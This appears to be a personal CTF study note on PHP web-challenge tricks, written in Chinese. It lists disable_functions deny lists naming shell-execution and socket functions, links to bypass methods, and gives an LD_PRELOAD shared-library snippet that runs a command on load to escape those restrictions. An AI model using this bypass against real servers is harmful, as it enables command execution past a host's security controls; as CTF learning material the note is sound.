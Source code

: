 - [[CTF/PHP/弱类型]]
- [[CTF/PHP/可变函数]]
- [[CTF/PHP/无引号字符串]]
- [[CTF/PHP/FFI]]
- [[CTF/PHP/Phar]]
- [[CTF/PHP/原生类]]
- [[CTF/PHP/Session]]
- [[CTF/PHP/反序列化]]
- [[CTF/PHP/特殊标签]]
- [[PHP/忽略错误]]
- [[PHP/模板字符串]]
- [[CTF/PHP/巧用exit()]]
- [[CTF/PHP/运算优先级]]
- [[CTF/PHP/用处特殊的函数]]
- # disable_function
	- ```
	  disable_functions = system,exec,shell_exec,passthru,proc_open,proc_close, proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport, syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept, socket_connect, stream_socket_server, stream_socket_accept,stream_socket_client,ftp_connect, ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space, disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd, posix_getegid,posix_geteuid,posix_getgid, posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid, posix_getppid,posix_getpwnam,posix_getpwuid, posix_getrlimit, posix_getsid,posix_getuid,posix_isatty, posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid, posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
	  ```
	  
	  
	  ```
	  passthru,system,putenv,chroot,chgrp,chown,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
	  ```
	-
	- 不完整版
		- ```
		  passthru,system,chroot,chgrp,chown,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,putenv
		  ```
	- 绕过
		- https://blog.csdn.net/jvkyvly/article/details/120197390#t10
- # LD_PRELOAD
	- ```
	  #include <stdlib.h>
	  #include <stdio.h>
	  #include <string.h>
	  
	  __attribute__ ((__constructor__)) void angel (void){
	    unsetenv("LD_PRELOAD");
	    system("/readflag > /tmp/wx.txt");
	  }
	  ```
- # 传入变量名转换
	- 如果变量名中有 `.` 或者空格，那 PHP 会将其转换成下划线
- # $_SERVER
	- `$_SERVER['QUERY_STRING']` 不会进行 url 转义
- # $_REQUEST
	- `$_REQUEST` 中 post 的优先级更高
	- 由 `phpinfo` 中的 `request_order` 和 `variables_order` 定义
-